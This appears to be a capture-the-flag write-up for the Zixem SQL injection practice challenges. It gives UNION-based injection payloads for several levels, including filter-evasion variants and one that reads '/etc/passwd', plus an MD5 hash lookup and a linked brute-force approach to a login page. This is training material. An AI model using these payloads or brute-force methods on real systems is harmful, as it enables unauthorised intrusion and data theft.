 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

 `?item=-9999' unionon select user(),version(),3,4; -- -`

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

 `?ebookid=-9999' union select user(),version(),3,4,5; -- -`

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

In viewsource mode:
 
 `?id=-9999 union select 1,user(),3 ; -- -`
 
 `?id=-9999 union select 1,version(),3 ; -- -`

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

 `?id=(-9999)UNION(SselectELECT(user()),version(),3)`

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

 `?id=-9999' union select('../etc/passwd'),2 ; -- -`

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

First, viewsource this login page and scroll down to end, we will find those red lines.

```
If you want hint, enter this password.
------
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
You can use my md5Cracker .
~~~~~~~~~~~~~~~~~~~~~~~~here: md5cracker.php~~~~~~~~~~~~~~~~~
```
Then enter this url `http://www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c` and we find the first password. Enter it to login page and get hint.

Now we know the passwords contains **only numbers**. Let's make some [code](https://github.com/TraiOi/Wargame_WriteUp/blob/master/Zixem/Zixem_SQLi/bruteforce.py) to bruteforce the login page.

Then we can get the password and see the result.

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |
